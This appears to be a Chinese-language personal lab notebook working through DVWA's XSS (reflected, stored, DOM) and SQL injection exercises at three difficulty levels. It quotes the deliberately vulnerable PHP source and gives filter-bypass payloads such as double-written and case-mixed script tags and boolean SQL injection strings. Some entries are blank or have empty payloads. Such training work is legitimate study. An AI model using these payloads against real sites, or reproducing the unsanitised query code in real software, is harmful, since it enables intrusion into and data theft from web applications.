


### 个人实验记录

## docker安装

- 
- 
- 
- 
- 拉取镜像:docker pull vulnerables/web-dvwa
- 运行镜像:docker run --rm -it -p 80:80 vulnerables/web-dvwa
- 

## XSS攻防实验

- XSS:在用户浏览网页或打开链接时，被恶意脚本攻击的行为。攻击对象是客户端的浏览器
- XSS根据效果不同，有如下几类：
  - 反射型XSS（Reflected XSS）：通过诱使用户点击一个设计好的链接，把恶意脚本“反射”给浏览器完成攻击行为。由于反射型XSS不存储在服务器上，所以也被称为“非持久型”XSS
  - 存储型XSS（Stored XSS）：存储型XSS会把用户输入的数据存储在服务器上，具有很强的稳定性，后续访问的用户都会受到攻击
  - DOM型XSS：DOM型XSS通过修改页面的DOM节点来形成XSS。DOM型XSS可能是存储型，也可能是反射型
  - 短链接：在反射型XSS、CSRF等攻击中，在URL中的恶意脚本太过明显，往往会引起受害者的警觉。所以，经常会将长连接转换为短链接。通俗来说，短链接就是将长的URL网址，通过查询、程序计算等方式，转换为简短的网址字符串

## Reflected XSS

1. low

  ```<?php
      header ("X-XSS-Protection: 0");     
      if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
       // Feedback for end user
      echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
      }   
      ?>
  ```

- payload:```<script>alert(/xss-rl/)<script>```
- 分析:以get方式发送变量,没有过滤和检查,未作处理name
- 
- bp:
- 
2. Medium

```
<?php
header ("X-XSS-Protection: 0");
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {    
    // 变化的代码，str_replace()：替换字符串中的一些字符（区分大小写）    
    $name = str_replace( '<script>', '', $_GET[ 'name' ] ); 
    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}
?>
```

- 分析: 对name中的内容过滤,过滤掉```<script>```,使用双写,大小写绕开过滤
- 
- payload:```<scr<script>ipt>alert(/xss-rm/)</scr<script>ipt>```
  或者:
  ```<ScRipt>alert(/xss-rm/)</ScRipt>```
- bp:
3. High

```
<?php
header ("X-XSS-Protection: 0");
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // 变化的代码
    // Get input. preg_replace: Perform a regular expression search and replace
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );
    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}
?>
```

- payload:``````
- 分析:利用prep_replace()对name中的script标签进行完全过滤,i表示不区分大小写;这里通过其他的标签如img的src注入js代码来绕开
- bp:

## Stored XSS

1. low:

```
<?php    
if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input. 
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );
    // Sanitize message input.    
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    // Sanitize name input
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
    //mysql_close();
}
?>
```

- payload:```<script>alert(/xss-sl/)</script>```
- 分析:在name框中输入payload中,发现限制输入长度;转到message中输入payload输入可以实现;也可以修改name框最大输入字符长度,输入payload同样可以实现
- 

2. Medium
```
<?php
    if( isset( $_POST[ 'btnSign' ] ) ) {
        // Get input
        ……
        // Sanitize message input    
        $message = strip_tags( addslashes( $message ) );
        $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $message = htmlspecialchars( $message );
        // Sanitize name input    
        $name = str_replace( '<script>', '', $name );
        $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        // Update database
        ……
    }
?>
```
- 分析:message参数使用了htmlspecialchars函数进行编码，因此无法再通过message参数注入XSS代码，但是对于name参数，只是简单过滤了`<script>`，仍然存在存储型的XSS。name框限制了输入长度,修改maxlength的大小。可双写,大小写,使用非script标签
- 函数:strip_tags()函数剥去字符串中的HTML、XML以及PHP的标签，但允许使用`<b>`标签.
addslashes()函数返回在预定义字符（单引号、双引号、反斜杠、NULL）之前添加反斜杠的字符串。
- payload:```<ScriPt>alert(/xss-sm/)</ScriPt>```
- 

3. High
```
<?php
 
if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );
 
    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );
 
    // Sanitize name input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
 
    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
 
    //mysql_close();
}
?> 
```

- 分析:使用正则表达式过滤了`<script>`标签,但还是忽略了其他的标签比如img
- payload:``
- 
- bp:删缩进`&nasp;`

## DOM XSS

1. low

- 分析:代码为空,但在点击select按钮时,发现它有个default参数,在url中将payload:`<script>alert(/xss-dl/)</script>`传给default实现.
- 
2. Medium
```
<?php
 
// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}
?> 
```
- 分析:对`<script>`进行了过滤，并且将default的值设置为English。这里的script还设置了大小写绕过。那么可以使用img标签来进行绕过。这里需要把option标签进行闭合才能发出。前面的low是利用设置default的值,而option标签中是不允许存在img图片标签的，所有需要闭合标签后才能触发 
- payload:`default=English&x=<script>alert(/xss-dm/)</script>`或`default=</select>`
- 

3. High
```
<?php
// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
 
    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}
?>
```
- 分析:default变量中的值，只允许French、English、German、Spanish中的一种才行，否则就会跳转结束运行。之前的方法依然有效果
- payload:`default=English&x=<script>alert(/xss-dh/)</script>`
- 


## sql注入
- SQL注入简介
  SQL注入攻击：通过将恶意的SQL语句插入到输入的参数中，并在后台SQL服务器上解析执行，从而造成的攻击行为。这种攻击的危害性巨大，常常会导致整个数据库被“脱库”。
  - SQL注入发生的原因
    - 攻击者可以对输入变量进行控制
    - 服务器对用户输入的变量没有进行安全处理（过滤、转义等）
    - 不安全的数据库配置（最小用户权限、安全配置）
  - SQL注入漏洞的种类
    - 根据注入点输入类型分为：字符串和数字型
    - 根据注入点的位置分为：POST注入，GET注入，HTTP头注入等
    - 根据获取信息的方式分为：显注和盲注
  - SQL注入属于对服务器端的攻击，对服务器端的攻击比较著名的还有：文件上传漏洞（File Upload）等。

1. low:
```PHP
<?php    
if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];
    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];
        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }
    mysqli_close($GLOBALS["___mysqli_ston"]);
}
?>
```
- 分析:只能输入1-5之间的数字，其余无显示，说明只有5组数据，使用get方法传递参数
- payload:`1' or '1'='1`
- 判断字段数目（2个字段）
            - `1' or 1 order by 1 #`:按第一列排序
            - `1' or 1 order by 2 #`:按第二列排序
            - `1' or 1 order by 3 #`:出现错误（`Unknown column '3' in 'order clause'`）没有第三列
- 
2. Medium
```
<?php
if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];
    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );
    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Display values
        $first = $row["first_name"];
        $last  = $row["last_name"];
        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }
}
// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];
mysqli_close($GLOBALS["___mysqli_ston"]);
?>
```
- 分析:不需要闭合单引号,不是字符型注入,而是数字型,会报错
- payload: `Submit=Submit&id=1 or 1=1#` 
- 
- 利用bp

3. High
```
<?php
if( isset( $_SESSION [ 'id' ] ) ) {
    // Get input
    $id = $_SESSION[ 'id' ];
    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );
    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];
        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }
    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);        
}
?>
```
- 分析:
    - 分离了输入页面和显示结果页面，目的是防止使用`SQLMap`等工具进行自动化注入
    - 页面提交方式为`POST`
    - 字符型，添加了`Limit 1`限制，查询语句为：`SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;`
- payload:`1' or 1=1#`

